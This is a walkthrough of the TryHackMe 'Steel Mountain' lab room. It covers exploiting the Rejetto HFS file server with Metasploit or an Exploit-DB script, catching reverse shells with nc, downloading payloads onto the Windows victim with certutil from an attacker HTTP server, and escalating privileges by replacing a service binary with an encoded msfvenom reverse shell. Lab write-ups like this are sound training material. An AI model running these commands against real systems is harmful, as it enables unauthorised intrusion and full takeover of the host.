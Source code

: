 # Steel Mountain

**Room Link:** [https://tryhackme.com/room/steelmountain](https://tryhackme.com/room/steelmountain)

## **Walkthrough**

**Introduction**

**Who is the employee of the month?**

<figure><img src="../../.gitbook/assets/image (9) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### **Initial Access**

**Scan the machine with nmap. What is the other port running a web server on?**

```
nmap -A 10.10.248.189
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Take a look at the other web server. What file server is running?**

Google this

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

**What is the CVE number to exploit this file server?**

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Use Metasploit to get an initial shell. What is the user flag?**

```
msfconsole 
use exploit/windows/http/rejetto_hfs_exec 
set LHOST 10.10.62.157 
set RHOSTS 10.10.181.159 
set RPORT 8080
exploit
```

**Option #2  Without Metasploit to get an initial shell. What is the user flag?**

**Exploit Link:** [https://www.exploit-db.com/raw/39161](https://www.exploit-db.com/raw/39161)

For this exploit we usually just need to change the ip\_addr and local\_port to our nc listener

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Because I performed this on a tryhackme attacker box which has port 80 in user to login through web I had to change the exploit to get the nc.exe from us on a different port.&#x20;

<figure><img src="../../.gitbook/assets/image (6) (2) (1).png" alt=""><figcaption></figcaption></figure>

```
nc -nvlp 443
cp /usr/share/wordlists/SecLists/Web-Shells/FuzzDB/nc.exe .
python2 -m SimpleHTTPServer 81
python2 exploit.py 10.10.181.159 8080
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Use Metasploit to get an initial shell. What is the user flag?**

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Privilege Escalation

**Kali**

```
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1 
python2 -m SimpleHTTPServer 81
```

**Windows**

```
certutil -urlcache -f http://10.10.228.214:81/PowerUp.ps1 PowerUp.ps1 
. .\PowerUp.ps1 
Invoke-AllChecks
```

<figure><img src="../../.gitbook/assets/image (1) (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.228.214 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o ASCService.exe
```

I couldn't delete the ASCService.exe but I could replace it when I copied the file over with certutil

**Victim**&#x20;

```
cd C:\Program Files (x86)\IObit\Advanced SystemCare
sc stop AdvancedSystemCareService9 
certutil -urlcache -f http://10.10.228.214:81/ASCService.exe ASCService.exe
```

**Kali**

```
nc -lvnp 4443
```

**Victim**

```
sc start AdvancedSystemCareService9
```

![](<../../.gitbook/assets/image (3) (1) (2) (1) (1) (1).png>)





